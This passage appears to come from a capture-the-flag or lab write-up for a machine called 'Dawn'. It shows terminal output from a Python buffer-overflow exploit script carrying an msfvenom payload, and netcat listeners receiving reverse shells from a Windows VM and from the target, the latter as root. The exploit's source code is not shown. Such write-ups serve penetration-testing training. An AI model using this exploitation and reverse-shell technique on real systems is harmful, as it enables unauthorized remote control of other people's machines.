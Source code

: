 4. Getting Shell: since all seeing seeing set, run the exploit against the vm machine with reverse shell for windows by using `msfvenom`, this give us reverse shell from that vm windows machine:
```
└─$ python2 ./bo1.py
[*] Buffer Overflow Attack - for Dawn
[*] Setup the server address and port number
[*] Creating the buffer payload
[*] Sending evil buffer...
<socket._socketobject object at 0x7fd683bc01a0>
[*] Pyload sent!
```
on the other terminal we have reverse shell:
```
└─$ nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.126.32] from (UNKNOWN) [192.168.126.29] 49303
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\lab\Downloads>
```

5. Root Shell: run the exploit against the target by using also create reverse shell using msfvenom and run the exploit against the target:
```
└─$ python2 ./bo1.py
[*] Buffer Overflow Attack - for Dawn
[*] Setup the server address and port number
[*] Creating the buffer payload
[*] Sending evil buffer...
<socket._socketobject object at 0x7fd683bc01a0>
[*] Pyload sent!
```
The shell we get is root shell, so we finish up the machine very quikly.
```
└─$ nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.45.247] from (UNKNOWN) [192.168.152.13] 53456
id
uid=0(root) gid=0(root) groups=0(root)
```

## 10 points box methodology
